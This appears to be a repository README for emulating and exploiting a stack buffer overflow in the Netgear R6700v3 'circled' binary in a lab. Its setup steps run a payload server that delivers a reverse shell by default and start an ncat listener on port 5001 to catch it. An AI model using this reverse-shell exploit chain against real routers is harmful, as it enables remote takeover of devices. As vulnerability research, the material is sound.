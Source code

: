 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3
## 1. Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Start the HTTP server delivering the payloads:
  ```
  # Using the default payloads triggering a reverse shell (use `--cmd` for a custom stage 0 payload)
  python3 server/circled.server.py
  ```
- In case the HTTP server was started with the default stage 0 payload (i.e. without customizing `--cmd`), listen for the reverse shell coming in on TCP port 5001:
  ```
  server/bins/ncat -l -p 5001
  ```
- Emulate the vulnerable *circled* binary:
  - Configure conservative ASLR as being used on the Netgear R6700v3:
    ```
    echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
    ```
  - Chroot into the root filesystem:
    ```
    sudo mount -t proc /proc/ $ROOTFS/proc/
    sudo mount -t sysfs /sys/ $ROOTFS/sys/
    sudo mount -o bind /dev/ $ROOTFS/dev/
    sudo chroot $ROOTFS/ /bin/sh
    ```
  - Execute the *circled* binary:
    ```
    export SHELL=/bin/sh

    # With GDB and therefore without ASRL (omit `--gdb` to run without GDB and with ASRL enabled)
    ./circled.sh --gdb
    ```
# 2. Morion Tracing
- Trace crash (`gdb-multiarch -q -x circled.gdb`)
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
